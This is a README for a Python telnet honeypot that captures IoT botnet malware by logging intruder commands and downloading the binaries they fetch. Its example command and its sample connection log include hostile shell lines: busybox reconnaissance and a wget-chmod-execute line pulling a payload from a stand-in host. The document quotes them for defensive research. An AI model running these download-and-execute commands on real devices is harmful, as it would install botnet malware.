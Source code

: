 # Telnet IoT honeypot

'Python telnet honeypot for catching botnet binaries'

This project implements a python telnet server trying to act
as a honeypot for IoT Malware which spreads over horribly
insecure default passwords on telnet servers on the internet.

The script tries to identify download commands
like `wget http://haxx0r.net/malware.bin`, extracts the URLs
and tries to download and indentify the malware-binaries.

Statistics of the downloaded binaries and corresponding
Urls/Telnet connections may be created via the generated
SQLite database.

All binaries are also uploaded to virustotal.com, if not
already present.

## Sample Connection

	enable
	shell
	sh
	cat /proc/mounts; /bin/busybox PEGOK
	cd /tmp; (cat .s || cp /bin/echo .s); /bin/busybox PEGOK
	nc; wget; /bin/busybox PEGOK
	(dd bs=52 count=1 if=.s || cat .s)
	/bin/busybox PEGOK
	rm .s; wget http://example.com:4636/.i; chmod +x .i; ./.i; exit 

## Images

![Screenshot 1](images/screen1.png)

![Screenshot 2](images/screen2.png)

![Screenshot 3](images/screen3.png)
